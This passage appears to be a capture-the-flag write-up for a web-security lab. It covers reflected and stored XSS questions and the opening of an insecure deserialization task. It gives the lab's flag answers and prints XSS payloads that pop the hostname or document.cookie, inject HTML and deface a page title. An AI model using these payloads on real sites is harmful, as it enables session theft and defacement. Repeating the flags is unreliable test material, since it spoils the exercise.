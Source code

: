 `payload = <script>alert(“Hello World”)</script>`

```
Q3: On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
A: ReflectiveXss4TheWin
```
This can be find by using the script describe in the hint and are following

`<script>alert(window.location.hostname)</script>`
***Hint: In Javascript window.location.hostname will show your hostname, in this case your deployed machine's hostname will be its IP.***
that will do the trick
```
Q4 Now navigate to http://10.10.251.222/ in your browser and click on the "Stored XSS" tab on the navbar; make an account.
Then add a comment and see if you can insert some of your own HTML.
A: HTML_T4gs
```
This will be done by using some html tag on the comment box and they will do the trick use the the following HTML Code or take this as a refrence Code:
 ```       
        <html>
               <title>
                You are being Hacked
               </title>
                                      <body>
                                      <b>Happy</b><i>Hacking</i>
                                      </body>
        </html>
```
This is the html code i think that will do the trick

```
Q5: On the same page, create an alert popup box appear on the page with your document cookies.
A: W3LL_D0N3_LVL2
```
This flag can be find by adding a script in the comment called "document.cookie" this will popup the cookie as an alert

`script : <script>alert(document.cookie)</script>`

This will do the trick
```
Q6: Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
A: websites_can_be_easily_defaced_with_xss
```
We get this flag by use the hint script in the comment box and they will show the answer in the page after question no 3 

script : `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`



### Task 21 [Severity 8] Insecure Deserialization 
```
Q1: Who developed the Tomcat application?
A: the Apache Software Foundation
```
This will find by google tomcat developer and they show the name and also see the tomcat wiki 
***note This is company name not person name*** 
```
Q2: What type of attack that crashes services can be performed with insecure deserialization?
A: denial of services
```

